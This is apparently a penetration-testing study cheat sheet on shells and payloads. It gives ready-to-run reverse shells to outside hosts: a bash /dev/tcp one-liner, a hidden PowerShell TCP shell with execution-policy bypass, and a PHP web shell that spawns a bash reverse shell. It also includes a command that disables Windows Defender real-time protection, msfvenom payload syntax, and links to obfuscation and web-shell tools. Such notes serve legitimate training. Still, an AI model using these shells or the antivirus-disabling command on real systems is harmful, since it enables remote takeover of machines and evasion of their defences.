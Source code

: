 # Shells & Payloads

## Reverse shell

Linux -> bash -i >& /dev/tcp/10.0.0.1/4242 0>&1

Windows ->&#x20;

```
powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient("10.0.0.1",4242);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

```powershell-session
Set-MpPreference -DisableRealtimeMonitoring $true
```

## MSFvemon

msfvenom -l payloads

linux pipes to .elf

windows pipes to .exe

Comand is:  msfvenom -p \<PATH\_TO\_ EXPLOIT> LHOST=\<IP> LPORT=\<PORT> -f \<elf/exe> > \<OUT>

## Payloads

* [https://swisskyrepo.github.io/PayloadsAllTheThings/](https://swisskyrepo.github.io/PayloadsAllTheThings/) - Good resource for payloads
* [https://github.com/bats3c/darkarmour](https://github.com/bats3c/darkarmour) - Good for obfuscated windows binaries
* msfvenom - See above

Msfconsole is a very easy tool and makes things very automated! Use search to look for exploits

Shell upgrades in the case of no python [here](https://academy.hackthebox.com/module/115/section/1117)

## Web shells

Laudanum - Come with installed ready to go web exploits only works on very easy targets. You do have to do some manual configuration. Like adding your local ip to the allowed list.

## Antak & IPPSEC

[https://ippsec.rocks/](https://ippsec.rocks/) -> Is a great resource for learning and checking out new technologies he may have spoken about.

```
<?php exec("/bin/bash -c 'bash -i >/dev/tcp/10.10.14.25/9000 0>&1'"); ?>
```

## Nishang

Come with a bunch on compiled payloads for different atack surfaces. Antak is themed like powershell and used for windows shells

## PHP webshells

[winterWolf](https://github.com/WhiteWinterWolf/wwwolf-php-webshell) -> nice one for php webshells provides clear stuff

